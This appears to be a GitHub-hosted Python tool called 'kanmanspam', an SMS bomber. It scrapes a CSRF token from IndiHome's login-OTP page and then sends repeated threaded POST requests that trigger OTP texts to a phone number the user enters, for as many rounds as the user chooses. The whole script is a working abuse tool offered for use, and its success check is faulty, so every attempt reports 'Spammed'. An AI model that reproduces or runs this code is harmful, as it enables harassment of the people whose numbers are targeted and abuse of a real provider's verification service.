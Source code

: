 # kanmanspam
By kanman
import requests, sys, re from concurrent.futures import ThreadPoolExecutor def gas(no): 	s = requests.Session() 	url = "https://www.indihome.co.id/verifikasi-layanan/login-otp" 	req = s.get(url).text 	token = re.findall(r"name=\"_token\" value=\"(.*?)\"", req)[0] 		 	data = { 	"_token":token, 	"msisdn":no 	} 	spam = s.post(url, data=data).text 	return spam def main(cnt, no): 	jml = 0 	with ThreadPoolExecutor(max_workers=2) as e: 		futures = [] 		for x in range(int(cnt)): 			futures.append(e.submit(gas, no)) 		for i, future in enumerate(futures): 			jml += 1 			spam = future.result() 			if "Gagal!" or "dikirim" in spam: 				print(f"[{jml}] Spammed {no}") 			else: 				print("* ERROR *") 				sys.exit() 	print("") if __name__ == '__main__': 	try: 		print("""\033[1m _____ __ ________ / ___// |/ / ___/ | SMS Spammer \__ \/ /|_/ /\__ \ | SMS Spammer using api from IndiHome ___/ / / / /___/ / | Coded by kanman - \033[31;2mIndo\033[39;2mSec\033[0;1m /____/_/ /_//____/ | ex: 08xxxxx77\033[0m 	""") 		no = input("No : ") 		if(no.isdigit()): 			pass 		else: 			print("Check your number phone!") 			sys.exit() 		if len(no) < 9: 			print("Check your number phone!") 			sys.exit() 		cnt = input("Count : ") 		if bool(cnt.isdigit()) == 0: 			print("Check your count!") 			sys.exit() 		else: 			print("") 			main(cnt, no) 	except(KeyboardInterrupt, EOFError): 		print("\n") 		sys.exit()
